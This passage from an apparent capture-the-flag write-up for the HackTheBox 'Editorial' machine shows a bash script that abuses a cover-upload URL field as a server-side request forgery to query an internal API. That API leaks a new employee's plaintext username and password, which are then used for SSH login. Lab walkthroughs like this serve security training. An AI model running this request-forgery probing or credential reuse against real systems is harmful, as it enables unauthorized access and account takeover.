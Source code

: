 The port `5000` appears to have an API running internally.

To explore the API conveniently, let’s create a bash script that sends the request and outputs the plain text response.

```
nano doreq.sh
```

```bash
#!/bin/bash

path=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=$1" -F "bookfile=@test.txt")
curl -s "http://editorial.htb/${path}"
```

For instance, let’s inspect the route `api/latest/metadata/messages/authors`.

```
./doreq.sh "http://127.0.0.1:5000/api/latest/metadata/messages/authors" | jq
```

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

It returns the message:

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.
```

It seems like a welcome message for a new employee, providing their username and password:

```
Username: dev
Password: dev080217_devAPI!@
```

We use these credentials to attempt SSH access on the machine.

```
ssh dev@editorial.htb

dev@editorial.htb's password: dev080217_devAPI!@
```
